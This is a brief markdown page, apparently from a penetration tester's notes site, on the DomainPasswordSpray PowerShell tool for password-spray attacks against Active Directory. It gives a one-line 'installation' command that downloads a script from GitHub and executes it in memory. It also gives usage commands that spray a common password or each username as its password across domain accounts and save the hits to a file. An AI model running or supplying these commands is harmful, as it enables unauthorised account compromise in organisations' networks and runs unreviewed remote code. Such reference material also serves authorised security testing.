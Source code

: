 ```yaml
---
title : "DomainPasswordSpray"
# pre : ' '
description : "Powershell script to perform password spray attack in Active Directory."
date : 2021-02-02T10:07:59+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Invoke-Domainpasswordspray

Powershell script to perform password spray attack in Active Directory.

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(ps1)"/%}}

### Installation

```plain
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1")
```

### Usage

```plain
Invoke-DomainPasswordSpray -Password Welkom01 -OutFile c:\temp\spray-results.txt
```

It can also be interesting to use the `-UsernameAsPassword` flag.

```plain
Invoke-DomainPasswordSpray -UsernameAsPassword -OutFile c:\temp\spray-results.txt
```

### URL list

* [Github.com - DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
